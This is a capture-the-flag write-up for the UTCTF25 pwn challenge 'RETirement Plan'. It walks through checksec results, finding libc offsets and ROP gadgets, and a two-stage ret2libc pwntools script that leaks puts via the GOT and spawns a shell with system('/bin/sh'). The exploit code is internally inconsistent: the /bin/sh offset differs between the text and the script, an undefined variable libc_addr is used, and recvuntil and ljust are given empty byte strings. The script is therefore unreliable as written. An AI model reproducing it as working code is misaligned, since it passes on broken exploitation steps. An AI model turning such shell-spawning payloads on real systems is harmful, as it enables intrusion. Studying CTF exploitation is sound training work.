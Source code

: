 # WriteUp for **RETirement Plan** @ UTCTF25  

## Category: Binary Exploitation / Pwn  

### Challenge Overview  
Upon opening the challenge, we are given:  

- A **binary** file  
- A **libc** file  

---

## Binary Analysis  

### Checking Security Protections  
We analyze the binary with `checksec` and get the following output:  

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      No canary found  
NX:         NX unknown - GNU_STACK missing  
PIE:        No PIE (0x3fe000)  
Stack:      Executable  
RWX:        Has RWX segments  
Stripped:   No  
```

### Observations  
- **No stack canary** → Buffer overflow is possible  
- **NX is not enabled** → Code execution on the stack is possible  

---

## Reverse Engineering the Binary  

Let's decompile the binary using **Ghidra**:

![Binary](decompiled.png)  

The binary performs the following operations:  

1. **Outputs text** using `puts()`  
2. **Reads user input** into a **48-byte buffer** using `gets()` (**vulnerable to buffer overflow**)  
3. **Transforms each character** based on the following logic:  
   - If **lowercase** → `char - 0x25`  
   - If **uppercase** → `char - 0x65`  

Since the program does **not** directly reveal the flag, we must execute `system("/bin/sh")` to gain a shell.

---

## Finding Offsets in libc  

Since **ASLR is enabled**, addresses are randomized, but **offsets remain constant**.  
We need the addresses of `system()` and `"/bin/sh"`.

### Extracting Offsets  

#### `system()` Offset:  
By running **libc in GDB**:  
```
gdb-peda$ p system  
$1 = {<text variable, no debug info>} 0x453a0 <system>
```
**Offset of `system`:** `0x453a0`

#### `"/bin/sh"` Offset:  
```
strings -t x libc-2.23.so | grep /bin/sh
```
Output:  
```
18ce57 /bin/sh
```
**Offset of `/bin/sh`:** `0x18ce57`

#### `puts()` Offset:  
```
gdb-peda$ p puts  
$1 = {<text variable, no debug info>} 0x6f6a0 <puts>
```
**Offset of `puts`:** `0x6f6a0`

### Plan of Attack  

1. **Leak the libc base address** using `puts()`.
2. **Call main again** using main's addr.
3. **Calculate system and "/bin/sh" addresses** using known offsets.  
4. **Exploit buffer overflow** to call `system("/bin/sh")`.

---

## Finding Main

So now we need to get the main() address    
If we use cylic to crash the program and check it using gdb we can see that the main address is 0x40070d - 247 = **0x400616**
![main](main.png)

---

## Finding ROP Gadgets  

Using **ROPgadget** to find useful instructions:  

```
ROPgadget --binary ./shellcode | grep "pop rdi"
```

```
0x0000000000400793 : pop rdi ; ret
0x00000000004004a9 : ret
```

### Explanation  
- **pop rdi; ret** → Allows control over the `rdi` register (1st argument to functions).  
- **ret** → Used for stack alignment.  

The first argument to a function is passed in the rdi register. For example:
To call puts("Hello"), the address of the string "Hello" must be placed in rdi.
To call system("/bin/sh"), the address of the string "/bin/sh" must be placed in rdi.

To call `system("/bin/sh")`, we need:  
1. `pop rdi; ret` → Load `/bin/sh` into `rdi`  
2. `ret` (optional for alignment)  
3. Call `system()`  

---

## Exploit Script  

```python
from pwn import *

# Load binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address to overwrite return register (mov eax, 0x0)
add = 0x400600  

# Receive initial output
p.recv()

payload = b'A' * 47        # Padding (47 A's)  
payload += b'F'            # Marker for reference  
payload += p64(add)        # Overwrite return address  
payload += 16 * b'b'       # Extra padding  
payload += p64(0x400793)   # pop rdi; ret gadget pops the next value in the stack (puts's GOT) into rdi, and return (plt.puts) which calls puts(puts@got) and prints the puts address
payload += p64(elf.got.puts)  # Address of puts() in GOT  
payload += p64(elf.plt.puts)  # Call puts()  
payload += p64(0x400616)   # Return to main()  

p.sendline(payload)

# Parse leaked puts() address
p.recvuntil(b'F')
output = p.recvuntil(b'').strip()
puts_addr = u64(output.ljust(8, b""))

# Calculate addresses
libc_base = puts_addr - 0x6f6a0  
system_addr = libc_base + 0x453a0  
bin_sh = libc_addr + 0x18ce67

payload2 = b'C' * 48        # Padding  
payload2 += p64(add)        # Overwrite return address  
payload2 += 16 * b'b'       # Extra padding  
payload2 += p64(0x4004a9)   # ret (stack alignment)  
payload2 += p64(0x400793)   # pop rdi; ret gadget pops next value (bin_sh) into rdi and returns this instruction to the next address in the stack (system_addr) calling system("/bin/sh") 
payload2 += p64(bin_sh)     # Address of "/bin/sh"  
payload2 += p64(system_addr)  # Call system("/bin/sh")  

p.sendline(payload2)

# Get interactive shell
p.interactive()
```

---

## Exploit Execution  

1. **First Payload:**  
   - Overwrites the return address.  
   - Calls `puts()` to leak its address from **GOT**.  
   - Returns to `main()` for second-stage execution.  

2. **Second Payload:**  
   - Calculates **libc base address**.  
   - Computes `system()` and `/bin/sh` addresses.  
   - Calls `system("/bin/sh")` to spawn a shell.  

### Successfully Getting the Flag  
![flag](flag.png) 